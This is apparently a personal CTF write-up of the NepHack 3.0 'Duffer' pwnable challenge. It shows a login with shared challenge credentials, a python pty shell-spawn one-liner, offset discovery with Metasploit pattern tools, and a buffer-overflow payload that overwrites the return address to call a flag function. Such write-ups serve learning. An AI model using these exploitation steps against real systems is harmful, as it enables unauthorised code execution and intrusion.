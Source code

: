 # Nephack 3.0



## Introduction

Actually NepHack is one of the Biggest Hacking Competition of Nepal after [threatcon](https://threatcon.io/) which is especially CTF (Jeopardy type) competition which is held annually every year in K.U.( Kathmandu University), Dhulikhel, Nepal. But unfortunately this year due to some internal problem of K.U NepHack 3.0 was held in premises of [Cynical Technology](https://cynicaltechnology.com/) .

Event happened at Jan 25–26,2020 but unfortunately I wasn’t able to attend due to my work . Luckily they decided to went live for 48 hours to play online(nephack.io)after 2 days of the event and I would like to thank Cynical Technology for it.

During that live session, I was able to secure first position but at last hour i.e. 10:00 pm I was downgraded to 2nd position by team caphilates but the score was equal. I would like to Congratulate team caphilates for winning the NepHack 3.0 online.

![Score_board](public/images/score_board.png)


Here I would like to especially focus on the Pwnable challenges and talking about my background,I am active at Hack The Box( HTB) since 6 months. You can see my profile here [gr4n173](https://www.hackthebox.eu/profile/60443).

## PWNABLE->>CHALLENGES

![challenge](public/images/challenges_pwn.png)


I was able to solve two challenges only: Shadow and Duffer. Among them I liked Duffer box because it was related to Buffer-overflow.

## Duffer
It was the time when our team decided to organize CTF outside the Valley. We created many challenges for CTF and event was successfully conducted you can see details here [VECTORCTF(CoTS)](https://www.facebook.com/events/424450345158496/?active_tab=discussion). Among them I had created one of the challenges related to bof and luckily same challenge was in NepHack 3.0 which was of 496 points named Duffer.

![duffer](public/images/duffer.png)

They have given ssh.log file on

```bash
root@gr4n173:~$cat ssh.log
```

I got `ssh.log`. part file there I can see the ssh login attempt log file by different user . I got the credentials from one of the members *maskop9* from winning team(me0w) during live event . Credential is hacker/cynical1 with local IP `192.168.10.189`. Since IP given was local IP, I wasn’t able to ssh into that user so I had to figure out other ways and I noticed I had a shell from shadow challenge which was of `phindrella` user and I am going to publish next Writeup where I will explain how I got `phindrella` user and it’s shell.

Then, I tried with that credentials as

![shell](public/images/shell.png)

Fig:-*Into hacker shell*


I am able to login hacker shell and since I was in tty shell I had to spawn that shell so I used

```
root@gr4n173:~$python -c ""import pty;pty.spawn(‘/bin/bash’)"
```

As challenge have given a description about the location at /hom/pax and I got two files.

![docker1](public/images/docker1.png)

Fig:- *hacker_shell*

one is vuln executable and other is flag.txt which doesn’t have permission to read .Since vuln file is ELF file so I generally read that file with gdb but my bad organizer doesn’t have gdb installed in that shell. So first I have to download that file to my localhost for that I used scp

```
root@gr4n173:~$scp hacker@iZa2dh0wn9s9aolc3csaudZ:/home/pax /root/Downloads/
```

this way I was able to download to my localhost and I had given the execute permission to that file.

```
root@gr4n173:~$chmod +x vuln
```

I had gdb install so used this command to read vuln file

```
root@gr4n173:~$gdb -q vuln
```

![gdb](public/images/gdb_shell.png)
 
 
Fig:- *vuln run normally*
 
		
nothing happened there and I entered many random text and I got `segmented fault`.

![sigfault](public/images/sigfault.png)

Now, I had to find the offset after which `SIGSEGV` fault occurred. I mostly use one of my favorite method to find offset as

```
root@root:$ /usr/share/metasploit framework/tools/exploit/./pattern_create.rb -l 100
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A

root@root:$ /usr/share/metasploit-framework/tools/exploit/./pattern_offset.rb -q 0x0000555555554830
[*] Exact match at offset 40
This way I got the offset. Then, I had to find the function where flag is located. For that I searched every functions and got this
```

![function](public/images/function_shell.png)

fig:-*Functions names*

there I got `fLog()` function as noticeable and had to find the address of this function as

![address](public/images/address_log.png)

Fig:- *Address of fLog*

Since that is the address before running the file and after running I got this

![address](public/images/fLog_function.png)

Fig:-*Address of fLog after running file*


Since all the address should be used in `Little Endian` format. There is small story about `Little Endian` if you are interested you can read from [here](https://www.ling.upenn.edu/courses/Spring_2003/ling538/Lecnotes/ADfn1.htm) 

Address is `0x8a4755555555` in Little Endian format and

> offset = 40
> 
> address to call = 8a4755555555

So my final payload was:

```
root@gr4n173:~$python -c “print(‘A’*40 + ‘\x8a\x47\x55\x55\x55\x55’)” | ./vuln
```

![flag](public/images/final_one.png)

Fig:- *Flag*

This way I got the flag as `cynical_flag{hacker_kto_mah}` and got 495 points.

I wanted to thank all readers for being with me through my post and I will be posting other walkthrough of NepHack 3.0 challenges soon.
At last, I would like to acknowledge brother [@maskop9](https://twitter.com/maskop9) for helping through out the competition and other helping hands along with the organizer Cynical Technology for awesome platform seems like they too have bugbounty platform as bugv.io :)




